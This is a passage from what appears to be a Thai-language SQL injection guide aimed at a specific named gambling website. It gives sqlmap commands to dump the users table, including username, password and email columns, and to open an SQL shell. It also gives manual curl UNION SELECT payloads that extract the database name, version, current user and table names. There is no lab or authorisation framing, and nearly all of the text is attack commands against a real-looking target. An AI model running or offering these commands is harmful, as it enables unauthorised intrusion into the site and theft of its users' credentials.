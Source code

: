 #### 3. ดึงข้อมูลจากตารางสำคัญ
```bash
# ดึงข้อมูล users/admins (ตัวอย่าง)
sqlmap -u "https://member.panama8888b.com/public/js/v2/app.js?v=25.1" \
       --batch \
       --dump \
       -D [database_name] \
       -T users \
       --dbms=mssql \
       --threads=3

# ดึงข้อมูลเฉพาะ column
sqlmap -u "https://member.panama8888b.com/public/js/v2/app.js?v=25.1" \
       --batch \
       --dump \
       -D [database_name] \
       -T users \
       -C "username,password,email" \
       --dbms=mssql
```

#### 4. เปิด SQL Shell
```bash
sqlmap -u "https://member.panama8888b.com/public/js/v2/app.js?v=25.1" \
       --batch \
       --sql-shell \
       --dbms=mssql
```

## วิธีการ 2: Manual SQL Injection

### ขั้นตอนการทดสอบแบบ Manual

#### 1. ตรวจสอบข้อมูลฐานข้อมูล
```bash
# ดึงชื่อฐานข้อมูล
curl "https://member.panama8888b.com/public/js/v2/app.js?v=25.1%29%29%20UNION%20SELECT%20DB_NAME%28%29%20--"

# ดึง version
curl "https://member.panama8888b.com/public/js/v2/app.js?v=25.1%29%29%20UNION%20SELECT%20%40%40version%20--"

# ดึง user ปัจจุบัน
curl "https://member.panama8888b.com/public/js/v2/app.js?v=25.1%29%29%20UNION%20SELECT%20USER_NAME%28%29%20--"
```

#### 2. ดึงรายชื่อตาราง
```bash
# ดึงชื่อตารางทั้งหมด
curl "https://member.panama8888b.com/public/js/v2/app.js?v=25.1%29%29%20UNION%20SELECT%20name%20FROM%20sysobjects%20WHERE%20xtype%3D%27U%27%20--"

# หรือใช้ INFORMATION_SCHEMA
curl "https://member.panama8888b.com/public/js/v2/app.js?v=25.1%29%29%20UNION%20SELECT%20table_name%20FROM%20information_schema.tables%20--"
```
